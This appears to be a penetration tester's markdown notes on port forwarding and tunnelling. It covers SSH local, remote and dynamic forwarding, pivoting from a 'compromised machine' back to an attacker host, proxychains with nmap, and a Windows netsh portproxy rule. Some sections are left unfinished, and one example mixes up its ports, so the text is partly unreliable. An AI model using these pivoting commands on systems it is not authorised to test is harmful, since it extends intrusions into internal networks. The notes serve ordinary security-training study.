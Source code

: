 Port forwarding_Tunnelling

## Examples

### Local Port Forwarding

- Victime machine with two interfaces :
1. 172.16.1.1:9200 is unaccessible from our attacker machine and is http. We want to access it.
2. 10.10.10.200 is accessible from our attacker machine.
- Our attacker machine : 10.10.10.1
- On attacking machine : ```ssh -L localPort:targetIp:targetPort user@sshGateway```. So we have : ```ssh -f -N -L 9200:172.16.1.1:80 bryan@10.10.10.200```
- `-f` background the ssh process once it's authenticated
- `-N` doesn't run a particular command on the remote server.
- Now, you can access to the service via ```localhost:80```
- Here the listener process is on the victim machine.
- So here, you initiate the connecion from your attacker machine.

---

### Remote port forwarding :

### Deleted this part, have to write it properly 

---

### Dynamic port forwarding

### Deleted this part, have to write it properly 

**concrete scenario :**

- open port 8080

- modify proxychains conf : 
```
vim /etc/proxychains.conf
socks4 127.0.0.1 8080
```

- On compromised machine
```
ssh -f -N -R 2222:127.0.0.1:22 t0@10.11.0.156
(my password)
```

- Localy :
```
ssh -f -N -D 127.0.0.1:8080 -p 2222 root@127.0.0.1
(root password of the compromised machine)
```

```proxychains nmap``` ...

- Pay attention, nmap with proxychains is very limited.

---

### HTTP Tunneling 


---

## Tunnelling on windows xp :

- install ipv6 protocol on the network card via control panel

- then verify ```ip helper``` is installed

- ```netsh interface portproxy add v4tov4 listenport=<PORT> listenaddress=0.0.0.0 or 127.0.0.1 or realip connectport=<PORTTOCONNECT> connectaddress=<IPTOCONNECT>```

---

## Experiment this for dynamic part :


TRY SSHUTTLE : 

https://blog.notso.pro/2019-10-24-tactical-debriefing1/ 

---

## Quick remote port forwarding in an ssh session :

```
~C
hit enter
-R 8000:127.0.0.1:8000
```

